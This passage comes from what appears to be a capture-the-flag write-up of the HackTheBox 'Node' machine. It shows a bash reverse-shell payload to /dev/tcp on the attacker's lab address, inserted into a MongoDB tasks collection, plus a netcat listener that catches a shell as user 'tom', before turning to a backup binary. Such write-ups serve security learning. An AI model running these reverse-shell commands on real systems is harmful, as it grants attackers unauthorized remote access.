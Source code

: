 Looks like the table is empty, let's change that. 

Finding a working payload was quite challanging. But at the end I found that `bash -c "bash -i >& /dev/tcp/10.10.14.37/9001 0>&1"`, works. 

To insert this command to the database we can run:

```bash
db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.37/9001 0>&1'"}
```

![insert-36](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Node/img/insert-36.png)

Next, I started a netcat listener on my attack machine using:

```bash
rlwrap nc -lnvp 9001
```

A couple of seconds later I get a connection as `tom`:

![tom-37](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Node/img/tom-37.png)

Now that we have access as `tom` we can take a look at the `/usr/local/bin/backup` binary. 

If we simply run the script without any arguments, nothing happens:

![nothing-38](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Node/img/nothing-38.png)

I ran `strings` on the binary to try and get more infoamtion but this didnt lead to anything super useful. However, when we downloaded the backup of the the MyPlace site, we went over the `/var/www/myplace/app.js` file. If we open this file once again and scroll down a bit we can see the following:
